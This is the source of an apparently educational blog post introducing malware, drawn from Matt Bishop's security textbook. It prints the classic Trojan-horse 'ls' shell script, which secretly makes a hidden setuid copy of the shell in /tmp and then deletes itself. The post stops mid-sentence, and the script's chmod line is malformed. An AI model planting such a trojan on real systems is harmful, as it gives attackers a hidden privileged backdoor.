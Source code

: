 ```yaml
---
layout: post
title:  "Gentle introduction to Malicious Software or Malware"
categories: [security]
comments: true
---
```


### Definition [^fn1]

Malicious logic, more commonly called malware, is a set of instructions that cause a site’s security policy to be violated.

In earlier days, when UNIX systems were popular, the hackers found a new way to get access to victims machine with a little piece of malicious code like the one below

~~~bash
#! /bin/sh 

# make a privileged, hidden copy of the shell (command interpreter) 
cp /bin/sh /tmp/.xxsh 
chmod o+s, w+x /tmp/.xxsh

# do what the victim thinks is *all* you’re doing 
ls $* 

# delete this file 
rm ./ls
~~~
When this file is saved with the file name 'ls' is victim's machine, 

### References:

[^fn1]: Computer Security - Arts and Science, *Matt Bishop* (Ch23 of 2nd Edition)